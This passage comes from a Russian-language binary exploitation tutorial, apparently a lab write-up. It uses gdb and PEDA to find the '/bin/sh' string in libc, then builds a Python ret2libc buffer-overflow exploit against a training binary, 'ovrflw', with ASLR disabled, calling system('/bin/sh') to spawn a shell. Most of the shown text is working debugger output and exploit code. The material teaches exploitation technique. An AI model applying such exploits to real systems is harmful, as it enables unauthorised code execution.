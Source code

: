 ```
(gdb) b main
(gdb) r
(gdb) find 0xb7e09000, +9999999, "/bin/sh"
0xb7f64a0b
warning: Unable to access 16000 bytes of target memory at 0xb7fbe793, halting search.
1 pattern found.
(gdb) x/s 0xb7f64a0b
0xb7f64a0b:     "/bin/sh"
```

Здесь я указываю начальный адрес для поиска, максимальное смещение относительно него и паттерн, который нужно найти. После чего командой анализа содержимого (`x/s`) убеждаюсь, что по адресу `0xb7f64a0b` действительно находится строка `"/bin/sh"`.

Однако ассистент PEDA предлагает более сподручный поиск строк с помощью встроенной Python-команды `searchmem`.

```
gdb-peda$ b main
gdb-peda$ r
gdb-peda$ searchmem '/bin/sh'
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f64a0b ("/bin/sh")
```

В этом случае я получаю нужный результат в одно действие.

#### Эксплоит

Теперь у тебя есть все, чтобы оформить эксплоит на Python.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Использование: python exploit_no_aslr.py

import struct
from subprocess import call


def little_endian(num):
	"""Упаковка адреса в формат little endian."""
	return struct.pack('<I', num)


junk = "A" * 112            # мусор

libc_addr = 0xb7e09000      # базовый адрес libc

system_offset = 0x0003ada0  # смещение функции system
exit_offset = 0x0002e9d0    # смещение функции exit
sh_offset = 0x0015ba0b      # смещение строки "/bin/sh"

system_addr = little_endian(libc_addr + system_offset)
exit_addr = little_endian(libc_addr + exit_offset)
sh_addr = little_endian(libc_addr + sh_offset)

payload = junk + system_addr + exit_addr + sh_addr

call(['./ovrflw', payload])
```


[//]: # (2019-10-08)